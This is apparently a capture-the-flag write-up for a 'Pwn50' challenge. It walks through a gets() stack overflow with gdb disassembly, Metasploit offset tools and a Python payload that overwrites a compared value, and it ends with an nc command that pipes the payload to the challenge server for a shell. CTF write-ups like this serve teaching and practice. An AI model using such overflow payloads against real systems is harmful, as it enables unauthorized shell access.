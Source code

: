 ## input
You look new here
so this is my gift for you
task : nc 54.153.19.139 5251
just write something when connect , its always UP

## output
We try to connect and input a lot of char:

```
~/Documents/challenge/CTF/Bugs\_Bunny/Pwn50$ ./pwn50 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Erreur de segmentation (core dumped)```

So we open the binary in GDB:

```
~/Documents/challenge/CTF/Bugs_Bunny/Pwn50$ gdb ./pwn50 
GNU gdb (Ubuntu 7.11.1-0ubuntu1~16.5) 7.11.1
Copyright (C) 2016 Free Software Foundation, Inc.
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.  Type "show copying"
and "show warranty" for details.
This GDB was configured as "x86_64-linux-gnu".
Type "show configuration" for configuration details.
For bug reporting instructions, please see:
<http://www.gnu.org/software/gdb/bugs/>.
Find the GDB manual and other documentation resources online at:
<http://www.gnu.org/software/gdb/documentation/>.
For help, type "help".
Type "apropos word" to search for commands related to "word"...

warning: ~/.gdbinit.local: Aucun fichier ou dossier de ce type
Reading symbols from ./pwn50...(no debugging symbols found)...done.
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000000000400646 <+0>:	push   rbp
   0x0000000000400647 <+1>:	mov    rbp,rsp
   0x000000000040064a <+4>:	push   rbx
   0x000000000040064b <+5>:	sub    rsp,0x38
   0x000000000040064f <+9>:	mov    DWORD PTR [rbp-0x34],edi
   0x0000000000400652 <+12>:	mov    QWORD PTR [rbp-0x40],rsi
   0x0000000000400656 <+16>:	mov    QWORD PTR [rbp-0x18],0x0
   0x000000000040065e <+24>:	lea    rax,[rbp-0x30]
   0x0000000000400662 <+28>:	mov    rdi,rax
   0x0000000000400665 <+31>:	mov    eax,0x0
   0x000000000040066a <+36>:	call   0x400520 <gets@plt>
   0x000000000040066f <+41>:	movzx  eax,BYTE PTR [rbp-0x30]
   0x0000000000400673 <+45>:	cmp    al,0x62
   0x0000000000400675 <+47>:	jne    0x4006ce <main+136>
   0x0000000000400677 <+49>:	movzx  eax,BYTE PTR [rbp-0x2f]
   0x000000000040067b <+53>:	cmp    al,0x75
   0x000000000040067d <+55>:	jne    0x4006ce <main+136>
   0x000000000040067f <+57>:	movzx  eax,BYTE PTR [rbp-0x2e]
   0x0000000000400683 <+61>:	cmp    al,0x67
   0x0000000000400685 <+63>:	jne    0x4006ce <main+136>
   0x0000000000400687 <+65>:	cmp    QWORD PTR [rbp-0x18],0xdefaced
   0x000000000040068f <+73>:	jne    0x4006ce <main+136>
   0x0000000000400691 <+75>:	mov    edi,0x400764
   0x0000000000400696 <+80>:	call   0x4004e0 <puts@plt>
   0x000000000040069b <+85>:	mov    eax,0x0
   0x00000000004006a0 <+90>:	call   0x400500 <geteuid@plt>
   0x00000000004006a5 <+95>:	mov    ebx,eax
   0x00000000004006a7 <+97>:	mov    eax,0x0
   0x00000000004006ac <+102>:	call   0x400500 <geteuid@plt>
   0x00000000004006b1 <+107>:	mov    esi,ebx
   0x00000000004006b3 <+109>:	mov    edi,eax
   0x00000000004006b5 <+111>:	mov    eax,0x0
   0x00000000004006ba <+116>:	call   0x400530 <setreuid@plt>
   0x00000000004006bf <+121>:	mov    edi,0x400773
   0x00000000004006c4 <+126>:	mov    eax,0x0
   0x00000000004006c9 <+131>:	call   0x4004f0 <system@plt>
   0x00000000004006ce <+136>:	mov    eax,0x0
   0x00000000004006d3 <+141>:	add    rsp,0x38
   0x00000000004006d7 <+145>:	pop    rbx
   0x00000000004006d8 <+146>:	pop    rbp
   0x00000000004006d9 <+147>:	ret    
End of assembler dump.```

We remark that there are 3 cmp *al* versus *0x62 0x75 0x67*, which in ASCII world means bug. Then we look which are the char of the overflow that are compared to *0xdefaced*.

First we generate a pattern:
```
# /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 50
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab```

Then we use the pattern as input after the bug string:
```
gdb-peda$ b * 0x0000000000400687
Breakpoint 1 at 0x400687
gdb-peda$ r
Starting program: /home/tenflo/Documents/challenge/CTF/Bugs_Bunny/Pwn50/pwn50 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA'
bugAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab










[----------------------------------registers-----------------------------------]
RAX: 0x67 ('g')
RBX: 0x0 
RCX: 0x7ffff7dd18e0 --> 0xfbad2288 
RDX: 0x7ffff7dd3790 --> 0x0 
RSI: 0x602045 --> 0xa ('\n')
RDI: 0x7fffffffdcf5 --> 0xfff7a2d830000000 
RBP: 0x7fffffffdcf0 --> 0x6241356241 ('Ab5Ab')
RSP: 0x7fffffffdcb0 --> 0x7fffffffddd8 --> 0x7fffffffe161 ("/home/tenflo/Documents/challenge/CTF/Bugs_Bunny/Pwn50/pwn50")
RIP: 0x400687 (<main+65>:	cmp    QWORD PTR [rbp-0x18],0xdefaced)
R8 : 0x602046 --> 0x0 
R9 : 0x6141386141376141 ('Aa7Aa8Aa')
R10: 0x4131624130624139 ('9Ab0Ab1A')
R11: 0x246 
R12: 0x400550 (<_start>:	xor    ebp,ebp)
R13: 0x7fffffffddd0 --> 0x2 
R14: 0x0 
R15: 0x0
EFLAGS: 0x246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40067f <main+57>:	movzx  eax,BYTE PTR [rbp-0x2e]
   0x400683 <main+61>:	cmp    al,0x67
   0x400685 <main+63>:	jne    0x4006ce <main+136>
=> 0x400687 <main+65>:	cmp    QWORD PTR [rbp-0x18],0xdefaced
   0x40068f <main+73>:	jne    0x4006ce <main+136>
   0x400691 <main+75>:	mov    edi,0x400764
   0x400696 <main+80>:	call   0x4004e0 <puts@plt>
   0x40069b <main+85>:	mov    eax,0x0
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffdcb0 --> 0x7fffffffddd8 --> 0x7fffffffe161 ("/home/tenflo/Documents/challenge/CTF/Bugs_Bunny/Pwn50/pwn50")
0008| 0x7fffffffdcb8 --> 0x20040072d 
0016| 0x7fffffffdcc0 ("bugAa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab")
0024| 0x7fffffffdcc8 ("1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab")
0032| 0x7fffffffdcd0 ("a4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab")
0040| 0x7fffffffdcd8 ("Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab")
0048| 0x7fffffffdce0 ("9Ab0Ab1Ab2Ab3Ab4Ab5Ab")
0056| 0x7fffffffdce8 ("b2Ab3Ab4Ab5Ab")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0000000000400687 in main ()
gdb-peda$ x/xw $rbp-0x18
0x7fffffffdcd8:	0x41376141```

Then we use pattern\_offset to know the offset that is compared to *0xdefaced*:
```
# /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 50 -q 0x41376141
[*] Exact match at offset 21```

We test locally if it's the right solution:
```
~/Documents/challenge/CTF/Bugs_Bunny/Pwn50$ python -c "print 'bug'+'A'*21+'\xed\xac\xef\x0d'" > input.hex
~/Documents/challenge/CTF/Bugs_Bunny/Pwn50$ (cat input.hex ; cat) | ./pwn50 
Cool Stuff :p!
whoami
tenflo```

So we can have our shell on the server with:
```(cat input.hex ; cat ) | nc 54.153.19.139 5251```

